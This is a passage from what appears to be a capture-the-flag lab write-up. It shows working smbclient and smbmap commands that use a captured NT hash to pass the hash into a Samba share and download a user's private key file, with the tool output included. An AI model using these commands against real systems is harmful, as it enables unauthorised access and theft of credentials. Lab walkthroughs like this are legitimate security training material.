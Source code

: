 Fortunately, SMB allows pass the hash, and I now have a hash for alice1978. To use a hash with `smbclient`, you just the same `-U username%password` format, but just put the hash in place of the password, and add the `--pw-nt-hash` option:

```

root@kali# smbclient -L \\\\10.10.10.107 --pw-nt-hash -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B

        Sharename       Type      Comment
        ---------       ----      -------
        alice           Disk      Alice's Windows Directory
        IPC$            IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------

```

I can do the same thing with `smbmap` just giving the hash as a password, but it requires a hash in LM:NT format. I can just add the LM hash for the empty string, aad3b435b51404eeaad3b435b51404ee.

```

root@kali# smbmap -u alice1978 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDCF6047784DE8B9FD8B' -H 10.10.10.107
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on 10.10.10.107...
[+] IP: 10.10.10.107:445	Name: 10.10.10.107                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	alice                                             	READ, WRITE
	IPC$                                              	NO ACCESS

```

#### Connect and Collect

I’ll connect to the alice share and grab the only file there, a ppk file:

```

root@kali# smbclient \\\\10.10.10.107\\alice -U alice1978%0B186E661BBDBDCF6047784DE8B9FD8B --pw-nt-hash
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jul 30 22:54:20 2018
  ..                                  D        0  Tue Jul 31 23:16:50 2018
  my_private_key.ppk                  A     1460  Mon Jul 16 21:38:51 2018

                433262 blocks of size 1024. 411540 blocks available
smb: \> get my_private_key.ppk
getting file \my_private_key.ppk of size 1460 as my_private_key.ppk (17.2 KiloBytes/sec) (average 17.2 KiloBytes/sec)
smb: \> exit

```
